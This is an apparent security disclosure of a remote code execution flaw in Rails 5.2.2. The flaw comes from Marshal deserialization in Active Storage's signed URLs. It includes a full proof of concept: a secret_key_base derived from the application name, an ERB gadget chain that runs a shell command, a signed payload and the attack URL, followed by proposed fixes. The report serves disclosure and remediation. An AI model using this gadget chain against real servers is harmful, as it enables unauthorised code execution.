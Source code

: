 # Password-Brute-Force
.
Since `ActiveSupport::MessageVerifier` and `ActiveSupport::MessageEncryptor` use Marshal as the default serializer, I confirmed that RCE is possible by object injection.


```ruby
# https://github.com/rails/rails/blob/v5.2.2/activesupport/lib/active_support/message_verifier.rb#L110
    def initialize(secret, options = {})
      raise ArgumentError, "Secret should not be nil." unless secret
      @secret = secret
      @digest = options[:digest] || "SHA1"
      @serializer = options[:serializer] || Marshal
    end
```

```ruby
# https://github.com/rails/rails/blob/v5.2.2/activesupport/lib/active_support/message_encryptor.rb#L145
def initialize(secret, *signature_key_or_options)
  options = signature_key_or_options.extract_options!
  sign_secret = signature_key_or_options.first
  @secret = secret
  @sign_secret = sign_secret
  @cipher = options[:cipher] || self.class.default_cipher
  @digest = options[:digest] || "SHA1" unless aead_mode?
  @verifier = resolve_verifier
  @serializer = options[:serializer] || Marshal
end
```

Especially in Rails 5.2 and later, `ActiveSupport::MessageVerifier` is used to validate the URL used in Active Storage, and attacks are possible.


```ruby
# https://github.com/rails/rails/blob/v5.2.2/activestorage/lib/active_storage/engine.rb#L81
initializer "active_storage.verifier" do
  config.after_initialize do |app|
    ActiveStorage.verifier = app.message_verifier("ActiveStorage")
  end
end
```

```ruby
# https://github.com/rails/rails/blob/v5.2.2/activestorage/app/controllers/active_storage/disk_controller.rb#L38
def decode_verified_key
  ActiveStorage.verifier.verified(params[:encoded_key], purpose: :blob_key)
end
```

It is also used in `ActiveStorage::Blob.find_signed`.
Also, these URLs can be accessed without using Active Storage.

### PoC

#### 1. Prepare server

```
$ ruby -v
ruby 2.6.0p0 (2018-12-25 revision 66547) [x86_64-darwin16]

$ rails -v
Rails 5.2.2

$ rails new verifier_rce
$ cd verifier_rce/
$ bundle install
```

```
# Active Storage is not installed, but routes is usable
$ bin/rails routes
Prefix Verb URI Pattern                                                                              Controller#Action
rails_service_blob GET  /rails/active_storage/blobs/:signed_id/*filename(.:format)                               active_storage/blobs#show
rails_blob_representation GET  /rails/active_storage/representations/:signed_blob_id/:variation_key/*filename(.:format) active_storage/representations#show
rails_disk_service GET  /rails/active_storage/disk/:encoded_key/*filename(.:format)                              active_storage/disk#show
update_rails_disk_service PUT  /rails/active_storage/disk/:encoded_token(.:format)                                      active_storage/disk#update
rails_direct_uploads POST /rails/active_storage/direct_uploads(.:format)                                           active_storage/direct_uploads#create
```

#### 2. Prepare payload

```ruby
$ ls /tmp/rce
ls: /tmp/rce: No such file or directory

$ bundle exec rails console
Running via Spring preloader in process 66998
Loading development environment (Rails 5.2.2)

irb(main):001:0> # emulate verifier
=> nil
irb(main):002:0> app_class_name = VerifierRce::Application.name
=> "VerifierRce::Application"
irb(main):003:0> secret_key_base = Digest::MD5.hexdigest(VerifierRce::Application.name)
=> "7e485df67863e85e584b3feecb22276d"
irb(main):004:0> key_generator = ActiveSupport::CachingKeyGenerator.new(ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000))
=> #<ActiveSupport::CachingKeyGenerator:0x00007ff55ac60d48 @key_generator=#<ActiveSupport::KeyGenerator:0x00007ff55ac60d98 @secret="7e485df67863e85e584b3feecb22276d", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007ff55ac60cf8 entries=0 default_proc=nil>>
irb(main):005:0> secret = key_generator.generate_key("ActiveStorage")
=> "\xB09\x11u/6#\x04\xE6\x15\x9C_\xBB\xE8\x94\xD0pn<\xFD\x15\x85\x95\x8BR\x82\x13\xCA\xC3\xDE\xAEB\x98\xDA\v\xD6+jI\xE6\x80\x9E\xC8$e\xE8(\xD5\x98\x82\x1FVy1\x9D>R\xAE\x9D\xAE\x88\xF1\xBA,"
irb(main):006:0> verifier = ActiveSupport::MessageVerifier.new(secret)
=> #<ActiveSupport::MessageVerifier:0x00007ff558aaee20 @secret="\xB09\x11u/6#\x04\xE6\x15\x9C_\xBB\xE8\x94\xD0pn<\xFD\x15\x85\x95\x8BR\x82\x13\xCA\xC3\xDE\xAEB\x98\xDA\v\xD6+jI\xE6\x80\x9E\xC8$e\xE8(\xD5\x98\x82\x1FVy1\x9D>R\xAE\x9D\xAE\x88\xF1\xBA,", @digest="SHA1", @serializer=Marshal, @options={}, @rotations=[]>
irb(main):007:0>


irb(main):008:0> # https://medium.com/@u0x/marshall-unserialization-exploit-for-ruby-on-rails-5-1-4-979475cfdba0
=> nil
irb(main):009:0> code = '`touch /tmp/rce`'
=> "`touch /tmp/rce`"
irb(main):010:0> erb = ERB.allocate
=> #<ERB:0x00007ff55acabdc0>
irb(main):011:0> erb.instance_variable_set :@src, code
=> "`touch /tmp/rce`"
irb(main):012:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):013:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):014:0> dump_target  = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result
=> ""
irb(main):015:0>

irb(main):016:0> verifier.generate(dump_target, purpose: :blob_key)
=> "eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVRazZEa0JwYm5OMFlXNWpaVzg2Q0VWU1FnZzZDVUJ6Y21OSkloVmdkRzkxWTJnZ0wzUnRjQzl5WTJWZ0Jqb0dSVlE2RGtCbWFXeGxibUZ0WlVraUJqRUdPd2xVT2d4QWJHbHVaVzV2YVFZNkRFQnRaWFJvYjJRNkMzSmxjM1ZzZERvSlFIWmhja2tpREVCeVpYTjFiSFFHT3dsVU9oQkFaR1Z3Y21WallYUnZja2wxT2g5QlkzUnBkbVZUZFhCd2IzSjBPanBFWlhCeVpXTmhkR2x2YmdBR093bFUiLCJleHAiOm51bGwsInB1ciI6ImJsb2Jfa2V5In19--78c21ddf5ca4239d862118730069e04fbf38fd3d"
```

```
# Confirm that the file was generated due to the side effect of creating payload
$ ls /tmp/rce
/tmp/rce

# Erase the file as it disturbs the operation check
$ rm /tmp/rce
$ ls /tmp/rce
ls: /tmp/rce: No such file or directory
```

#### 3. Attack

Start server.

```
$ bin/rails s
```

Open URL in browser.
(`GET  /rails/active_storage/disk/:encoded_key/*filename`, use payload for `:encoded_key`)

```
http://0.0.0.0:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVRazZEa0JwYm5OMFlXNWpaVzg2Q0VWU1FnZzZDVUJ6Y21OSkloVmdkRzkxWTJnZ0wzUnRjQzl5WTJWZ0Jqb0dSVlE2RGtCbWFXeGxibUZ0WlVraUJqRUdPd2xVT2d4QWJHbHVaVzV2YVFZNkRFQnRaWFJvYjJRNkMzSmxjM1ZzZERvSlFIWmhja2tpREVCeVpYTjFiSFFHT3dsVU9oQkFaR1Z3Y21WallYUnZja2wxT2g5QlkzUnBkbVZUZFhCd2IzSjBPanBFWlhCeVpXTmhkR2x2YmdBR093bFUiLCJleHAiOm51bGwsInB1ciI6ImJsb2Jfa2V5In19--78c21ddf5ca4239d862118730069e04fbf38fd3d/test
```

Confirm that the file was created.

```
$ ls /tmp/rce
/tmp/rce
```

## Impact

If the server is running in development mode with version 5.2 or later, if the attacker can know application name, `secret_key_base` can be obtained, so RCE can be easily done by accessing the URL.
In production mode, an attacker needs to know `secret_key_base`.

For versions less than 5.2, attacks are possible only if the user is able to input places using `ActiveSupport::MessageVerifier` or `ActiveSupport::MessageEncryptor` and the attacker knows `secret_key_base`.

### proposed measures

- Use `JSON.load` or `Yaml.safe_load` without using Marshal
- Disable access to URL if Active Storage is not used
